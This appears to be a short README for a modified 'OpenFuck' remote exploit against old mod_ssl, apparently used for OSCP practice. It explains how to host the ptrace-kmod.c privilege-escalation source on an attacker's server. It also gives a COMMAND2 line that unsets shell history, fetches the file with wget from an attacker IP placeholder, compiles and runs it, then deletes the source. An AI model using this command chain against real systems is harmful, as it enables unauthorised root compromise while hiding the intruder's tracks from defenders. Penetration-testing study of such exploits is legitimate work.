 # openfuck_oscp

##  mod_ssl < 2.2.7
## modified the code on line 671



## download ptrace-kmod.c from https://packetstormsecurity.com/files/download/30973/ptrace-kmod.c 



## host  ptrace-kmod.c in apache server and replace the url with apache  


## added the lines export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin to overcome ld error


## enter url of the file in the command2



## change the url only to execute the code
```
#define COMMAND2 "unset HISTFILE; cd /tmp;export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin; wget http://enter ur ip here/ptrace-kmod.c; gcc -o exploit ptrace-kmod.c; rm ptrace-kmod.c; ./exploit; \n"
```
# for more refer:https://medium.com/@snowshoe/how-to-compile-openfuckv2-c-69e457b4a1d1


